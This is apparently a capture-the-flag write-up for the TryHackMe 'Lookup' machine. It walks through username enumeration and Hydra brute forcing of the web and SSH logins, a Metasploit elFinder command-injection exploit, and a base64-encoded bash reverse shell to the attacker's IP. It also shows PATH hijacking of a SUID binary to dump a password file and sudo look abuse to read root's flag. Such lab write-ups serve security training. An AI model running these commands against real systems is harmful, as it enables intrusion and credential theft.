## TL;DR

We start with enumarating the usernames which exists in login portal, and then brute force the password of user `jose`. Then we exploit known vulnerability in elFinder to get reverse shell as `www-data`. From there we exploit `/usr/sbin/pwm` to achieve aviliable passwords from `/home/think/.passwords` for user `think`.
After logging to `think` user via ssh, we exploit `/usr/bin/look` to get the root flag from `/root/root.txt`.

### Recon

we start with `nmap`, using this command:
```bash
nmap -p- -sVC --min-rate=10000 $target -oX nmap.xml -oN nmap.txt -Pn
```



We can see port `22` is opened with ssh and port `80` with apache http web server. 
```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 bb:0d:d7:c5:40:20:c2:17:e5:e5:98:9b:34:70:d5:05 (RSA)
|   256 aa:ee:9b:7c:eb:82:b7:50:ef:e7:13:e2:ec:28:7e:ea (ECDSA)
|_  256 99:90:cf:5e:f5:c8:31:ab:d0:c7:f3:db:cf:41:5c:ce (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Did not follow redirect to http://lookup.thm
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Let's add `lookup.thm` to our `/etc/hosts` file.

### Enumerate usernames and brute force the password for user jose

I can see only the login portal here, I tried to find hidden endpoints and subdomains using `ffuf`, but I found nothing. Also `SQLi` didn't work.



When I tried to login with default credentials `admin:admin` I got this message `Wrong password.`
```bash
┌──(agonen㉿kali)-[~/thm/Lookup]
└─$ curl "http://lookup.thm/login.php" -X POST -d 'username=admin&password=admin'
Wrong password. Please try again.<br>Redirecting in 3 seconds.
```

however, when I tried to login with different credentials, for example `yossi:yossi`, I got back `Wrong username or password.`
```bash
┌──(agonen㉿kali)-[~/thm/Lookup]
└─$ curl "http://lookup.thm/login.php" -X POST -d 'username=yossi&password=yossi'
Wrong username or password. Please try again.<br>Redirecting in 3 seconds.  
```

So, I realized we can enumerate usernames, and then maybe brute force their passwords.



I used `hydra` to enumerate usernames, I used this dictionary `/usr/share/SecLists/Usernames/Names/names.txt`:
```bash
┌──(agonen㉿kali)-[~/thm/Lookup]
└─$ hydra -L /usr/share/SecLists/Usernames/Names/names.txt -p password lookup.thm http-post-form "/login.php:username=^USER^&password=^PASS^:F=Wrong username" 
Hydra v9.6 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-11-11 14:16:10
[DATA] max 16 tasks per 1 server, overall 16 tasks, 10713 login tries (l:10713/p:1), ~670 tries per task
[DATA] attacking http-post-form://lookup.thm:80/login.php:username=^USER^&password=^PASS^:F=Wrong username
[80][http-post-form] host: lookup.thm   login: admin   password: password
[STATUS] 1333.00 tries/min, 1333 tries in 00:01h, 9380 to do in 00:08h, 16 active
[STATUS] 1222.33 tries/min, 3667 tries in 00:03h, 7046 to do in 00:06h, 16 active
[80][http-post-form] host: lookup.thm   login: jose   password: password
[STATUS] 1330.25 tries/min, 10642 tries in 00:08h, 71 to do in 00:01h, 16 active
1 of 1 target successfully completed, 2 valid passwords found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-11-11 14:24:13
```

As we can see, we achieved user `jose`, Let's try to bruteforce its password:
```bash
┌──(agonen㉿kali)-[~/thm/Lookup]
└─$ hydra -l jose -P /usr/share/wordlists/rockyou.txt lookup.thm http-post-form "/login.php:username=^USER^&password=^PASS^:F=Wrong password"
Hydra v9.6 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-11-11 14:24:13
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking http-post-form://lookup.thm:80/login.php:username=^USER^&password=^PASS^:F=Wrong password
[80][http-post-form] host: lookup.thm   login: jose   password: password123
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-11-11 14:25:12
```

We found this working credentials:
```bash
jose:password123
```

Notice that also for the username `admin` we can find the password `password123` (this is not working, we can see later in the source code why not... I think this is a bug of the writers, maybe they wanted to drive us crazy or something):
```bash
┌──(agonen㉿kali)-[~/thm/Lookup]
└─$ hydra -l admin -P /usr/share/wordlists/rockyou.txt lookup.thm http-post-form "/login.php:username=^USER^&password=^PASS^:F=Wrong password"
Hydra v9.6 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-11-11 14:27:06
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking http-post-form://lookup.thm:80/login.php:username=^USER^&password=^PASS^:F=Wrong password
[STATUS] 1374.00 tries/min, 1374 tries in 00:01h, 14343025 to do in 173:59h, 16 active
[80][http-post-form] host: lookup.thm   login: admin   password: password123
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-11-11 14:28:18
```



When we try to login, we can see the subdomain `files.lookup.thm`



Let's add to our `/etc/hosts`:

### Exploit known vulnerability in elFinder to achieve reverse shell as www-data

when we browse to `files.lookup.thm` we can see it has elFinder web file manager
> elFinder is a popular web file manager often used in CMS and frameworks, such as WordPress plugins (wp-file-manager) or Symfony bundles, to allow easy operations on both local and remote files.



Then, I checked the version in the question mark box



We can this is version `2.1.47`, when we google for known exploits for this version, we can find `OS Command Injection`, here
[https://www.rapid7.com/db/modules/exploit/unix/webapp/elfinder_php_connector_exiftran_cmd_injection/](https://www.rapid7.com/db/modules/exploit/unix/webapp/elfinder_php_connector_exiftran_cmd_injection/).

It has metasploit module, Let's use it, here I already set up all the arguments:
```bash
msf exploit(unix/webapp/elfinder_php_connector_exiftran_cmd_injection) > show options                                                                        
                                                                                                                                                             
Module options (exploit/unix/webapp/elfinder_php_connector_exiftran_cmd_injection):                                                                          
                                                                                                                                                             
   Name       Current Setting   Required  Description                                                                                                        
   ----       ---------------   --------  -----------                                                                                                        
   Proxies                      no        A proxy chain of format type:host:port[,type:host:port][...].                                                      
                                           Supported proxies: socks5h, sapni, http, socks4, socks5                                                           
   RHOSTS     files.lookup.thm  yes       The target host(s), see https://docs.metasploit.com/docs/usin
                                          g-metasploit/basics/using-metasploit.html
   RPORT      80                yes       The target port (TCP)                                                                                              
   SSL        false             no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /elFinder/        yes       The base path to elFinder                                                                                          
   VHOST                        no        HTTP server virtual host                                                                                           
                                                                              
                                                                              
Payload options (php/meterpreter/reverse_tcp):                                

   Name   Current Setting  Required  Description                              
   ----   ---------------  --------  -----------                              
   LHOST  10.9.2.147       yes       The listen address (an interface may be specified)
   LPORT  1337             yes       The listen port                                                                                                         


Exploit target:                        

   Id  Name                            
   --  ----                            
   0   Auto                            


View the full module info with the info, or info -d command.                                                                                                 

msf exploit(unix/webapp/elfinder_php_connector_exiftran_cmd_injection) > run         
```



These are the commands for copy paste, notice you need to login before starting the `msfconsole`:
```bash
use exploit/unix/webapp/elfinder_php_connector_exiftran_cmd_injection
set LHOST tun0
set LPORT 1337
set RHOSTS files.lookup.thm
run
``` 

Then, After opening shell we can paste the payload from `penelope` to get reverse shell to our penelope:
```bash
printf KGJhc2ggPiYgL2Rldi90Y3AvMTAuOS4yLjE0Ny80NDQ0IDA+JjEpICY=|base64 -d|bash
```

And we got shell:

### Exploit /usr/sbin/pwm to achieve password from /home/think/.passwords

When I travel around, I found the source code of `index.php`:
```php
www-data@ip-10-10-90-193:/var/www/files.lookup.thm/public_html$ cat index.php 
<?php
// Check if the "login_status" cookie is set and has the value "success"
if (isset($_COOKIE['login_status']) && $_COOKIE['login_status'] === 'success') {
    // Successful login - Redirect to a page in the files subdomain
    header('Location: http://files.lookup.thm/elFinder/elfinder.html'); // Change 'http://files.lookup.thm/destination-page' to the appropriate URL
    exit();
} else {
    // Cookie for successful login not found - Redirect to the page where the request came from
    $referer = isset($_SERVER['HTTP_REFERER']) ? $_SERVER['HTTP_REFERER'] : 'http://lookup.thm'; // Set a default page to redirect if no referer is available
    header('Location: ' . $referer);
    exit();
}
?>
```

Here we can see the source code of `lookup.thm/login.php`:
```php
www-data@ip-10-10-90-193:/var/www/lookup.thm/public_html$ cat login.php 
<?php
// Check if the form is submitted
if ($_SERVER["REQUEST_METHOD"] === "POST") {
    // Retrieve the submitted credentials
    $username = $_POST["username"];
    $password = $_POST["password"];

    // In a real application, you would validate the credentials against a database or other secure storage.
    // For this example, we will hardcode the credentials for simplicity.

    // Replace these with your actual valid credentials
    $validUsernames = array("jose", "admin"); // Add more valid usernames if needed
    $validUsername = "jose";
    $validPassword = "password123";

    if ($username === $validUsername && $password === $validPassword) {
        // Successful login - Redirect to /elFinder
        setcookie("login_status", "success", time() + 3600, "/", "lookup.thm");
        header("Location: http://files.lookup.thm");
        exit(); // Important: Make sure to exit after redirection to prevent further script execution.
    } else {
        // Wrong username or password
        if (in_array($username, $validUsernames) && $password !== $validPassword) {
            echo "Wrong password. Please try again.";
        } else {
            echo "Wrong username or password. Please try again.";
        }

        echo "<br>Redirecting in 3 seconds.";
        header("Refresh: 3; url=http://lookup.thm"); // Use Refresh header to redirect after a delay
        exit();
    }
}
?>
```

LOL, all the authentication we based on the cookie `login_status`, which is set to `success`.
we can see that now in the website



Anyway, we'll try to execute peass_ng to gather some information. we can find more users, also we can do it by simply reading `/etc/passwd`.

```bash
╔══════════╣ Users with console
root:x:0:0:root:/root:/usr/bin/bash                                                                                                                                                                                                        
ssm-user:x:1001:1001::/home/ssm-user:/bin/sh
think:x:1000:1000:,,,:/home/think:/bin/bash
ubuntu:x:1002:1003:Ubuntu:/home/ubuntu:/bin/bash
```


Then, under interesting files, we can find this
```bash
-rwsr-sr-x 1 root root 17K Jan 11  2024 /usr/sbin/pwm (Unknown SUID binary!)
```



When we scan the `/home` folders of the other users, we detect this interesting folders of user `think`
```bash
www-data@ip-10-10-118-227:/var/www$ ls -la /home/think/
total 40
drwxr-xr-x 5 think think 4096 Jan 11  2024 .
drwxr-xr-x 5 root  root  4096 Nov 11 16:50 ..
lrwxrwxrwx 1 root  root     9 Jun 21  2023 .bash_history -> /dev/null
-rwxr-xr-x 1 think think  220 Jun  2  2023 .bash_logout
-rwxr-xr-x 1 think think 3771 Jun  2  2023 .bashrc
drwxr-xr-x 2 think think 4096 Jun 21  2023 .cache
drwx------ 3 think think 4096 Aug  9  2023 .gnupg
-rw-r----- 1 root  think  525 Jul 30  2023 .passwords
-rwxr-xr-x 1 think think  807 Jun  2  2023 .profile
drw-r----- 2 think think 4096 Jun 21  2023 .ssh
lrwxrwxrwx 1 root  root     9 Jun 21  2023 .viminfo -> /dev/null
-rw-r----- 1 root  think   33 Jul 30  2023 user.txt
```

The file `.passwords` is very interesting. Anyway, let execute `/usr/sbin/pwm` file and see what it is doing, notice this has setuid bit on.

```bash
www-data@ip-10-10-118-227:/var/www$ /usr/sbin/pwm
[!] Running 'id' command to extract the username and user ID (UID)
[!] ID: www-data
[-] File /home/www-data/.passwords not found
```

We can see it executes the command `id`, and then trying to do something with the file `/home/www-data/.passwords`, probably read it.
What is we'll provide our own `/tmp/id`, and change in the `$PATH` variable to make it use our own id file, and then give the id of user `think`? Maybe it'll try to get us `/home/think/.passwords`.

Let's do it:
```bash
echo -e '#!/bin/bash\necho "uid=1000(think) gid=1000(think) groups=1000(think)"' > /tmp/id
chmod +x /tmp/id
export PATH=/tmp:$PATH
/usr/sbin/pwm
```

And after executing:
```bash
www-data@ip-10-10-118-227:/tmp$ cat id
#!/bin/bash
echo "uid=1000(think) gid=1000(think) groups=1000(think)"
www-data@ip-10-10-118-227:/tmp$ /usr/sbin/pwm
[!] Running 'id' command to extract the username and user ID (UID)
[!] ID: think
jose1006
jose1004
jose1002
jose1001teles
jose100190
jose10001
jose10.asd
jose10+
jose0_07
jose0990
jose0986$
jose098130443
jose0981
jose0924
jose0923
jose0921
thepassword
jose(1993)
jose'sbabygurl
jose&vane
jose&takie
jose&samantha
jose&pam
jose&jlo
jose&jessica
jose&jessi
josemario.AKA(think)
jose.medina.
jose.mar
jose.luis.24.oct
jose.line
jose.leonardo100
jose.leas.30
jose.ivan
jose.i22
jose.hm
jose.hater
jose.fa
jose.f
jose.dont
jose.d
jose.com}
jose.com
jose.chepe_06
jose.a91
jose.a
jose.96.
jose.9298
jose.2856171
```



Now that we got all possible passwords from `/home/think/.passwords`, we can try brute force ssh login with `hydra`.

```bash
┌──(agonen㉿kali)-[~/thm/Lookup]
└─$ hydra -l think -P possible_passwords.txt ssh://lookup.thm -t 4 
Hydra v9.6 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-11-11 20:04:41
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 4 tasks per 1 server, overall 4 tasks, 49 login tries (l:1/p:49), ~13 tries per task
[DATA] attacking ssh://lookup.thm:22/
[22][ssh] host: lookup.thm   login: think   password: josemario.AKA(think)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-11-11 20:05:33
```



So now we got these credentials for ssh login:
```bash
think:josemario.AKA(think)
```


```bash
┌──(agonen㉿kali)-[~/thm/Lookup]
└─$ ssh think@lookup.thm
think@lookup.thm's password: 
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.15.0-139-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Tue 11 Nov 2025 09:00:03 PM UTC

  System load:  0.73              Processes:             117
  Usage of /:   68.7% of 9.75GB   Users logged in:       0
  Memory usage: 14%               IPv4 address for ens5: 10.10.199.68
  Swap usage:   0%

 * Ubuntu 20.04 LTS Focal Fossa will reach its end of standard support on 31 May
 
   For more details see:
   https://ubuntu.com/20-04

Expanded Security Maintenance for Applications is not enabled.

221 updates can be applied immediately.
170 of these updates are standard security updates.
To see these additional updates run: apt list --upgradable

Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status


The list of available updates is more than a week old.
To check for new updates run: sudo apt update
Your Hardware Enablement Stack (HWE) is supported until April 2025.

Last login: Sun May 12 12:07:25 2024 from 192.168.14.1
think@ip-10-10-199-68:~$ cat user.txt 
38375fb4dd8baa2b2039ac03d92b820e
```

### Use /usr/bin/look and sudo to read root flag

We can start with `sudo -l` to inspect our sudo permissions.

```bash
think@ip-10-10-199-68:~$ sudo -l
[sudo] password for think: 
Matching Defaults entries for think on ip-10-10-199-68:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User think may run the following commands on ip-10-10-199-68:
    (ALL) /usr/bin/look
```

I used [https://gtfobins.github.io/gtfobins/look/](https://gtfobins.github.io/gtfobins/look/) to find privilege escalation vector for the binary `/usr/bin/look`.

we can see this

> If the binary is allowed to run as superuser by sudo, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

>```
> LFILE=file_to_read 
> sudo look '' "$LFILE"
>```

We want to read `/root/root.txt`.

```bash
think@ip-10-10-199-68:~$ sudo look '' /root/root.txt
5a285a9f257e45c68bb6c9f9f57d18e8
```

